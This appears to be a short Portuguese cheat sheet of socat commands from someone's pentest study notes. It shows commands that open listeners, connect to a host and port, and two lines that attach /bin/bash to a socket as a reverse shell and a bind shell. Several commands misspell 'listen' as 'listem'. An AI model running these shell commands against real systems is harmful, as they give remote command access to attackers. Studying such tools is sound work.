 Abrir porta tcp com o socat
	socat tcp4-listem:2222

Abrir porta UDP com o socat
	socat udp4-listem:222

Conectar em um ip e porta especifico
	socat - tcp4:192.168.0.26:4040

Enviar dados pelo socat
	socat tcp4:192.168.0.26:4040 EXEC:/bin/bash

Recebendo dados pelo socat
	socat tcp4-listem:222 EXEC:/bin/bash

É uma outra ferramenta parecida com o nc, é interessante ter o conhecimento de outras ferramentas para caso seja a unica disponivel.


